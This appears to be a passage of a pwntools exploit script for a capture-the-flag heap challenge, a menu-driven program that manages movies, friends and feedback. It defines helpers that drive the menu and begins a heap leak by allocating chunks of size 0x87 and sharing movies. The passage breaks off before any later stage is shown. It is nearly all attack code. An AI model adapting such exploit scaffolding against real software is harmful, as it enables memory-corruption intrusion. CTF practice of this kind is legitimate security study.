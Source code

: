 ```
    p.sendlineafter("\nHow good is this movie (1-5 stars)?", str(stars))

def add_friend(size, name):
    choose(1)
    choose(choose_items['add'])
    p.sendlineafter("How long is your friend's name?", str(size))
    p.sendlineafter("What's your friend's name?", name)

def leave():
    choose(2)
    p.sendlineafter("\nAre you sure you want to delete you account? (y/N)", "y")

def add_feedback(content):
    choose(choose_items['add'])
    p.sendlineafter("\nWhat feedback do you have for us?", content)

def add_detail(content):
    choose(choose_items['show'])
    p.sendlineafter("\nHow can we reach you in case of questions?", content)

def show_movie(title):
    choose(0)
    choose(choose_items['show'])
    p.recvuntil("Title: " + title)
    p.recvuntil("* Shared with: ")

def show_friend(idx):
    choose(1)
    choose(choose_items['show'])

def delete_movie(idx):
    choose(0)
    choose(choose_items['delete'])
    p.sendlineafter("\nWhat movie do you want to remove?\nI bet it's one you've seen a hundred times already.", str(idx))

def delete_friend(idx):
    choose(1)
    choose(choose_items['delete'])
    p.sendlineafter("Who made you angry that you don't want to be friends with them anymore?", str(idx))

def delete_feedback(idx):
    choose(choose_items['delete'])
    p.sendlineafter("\nWhat feedback do you want to delete?", str(idx))

def share_movie(movie_idx, friend_idx):
    choose(0)
    choose(choose_items['share'])
    p.sendlineafter("Which great movie do you want to share?", str(movie_idx))
    p.sendlineafter("Sharing is caring. Who's the lucky one?", str(friend_idx))

leave_name("N0p")

# leak heap
for i in range(8):
    add_friend(0x87, str(i))

add_movie("AAA", 5)
add_movie("BBB", 5)

share_movie(0, 0)
share_movie(1, 7)
```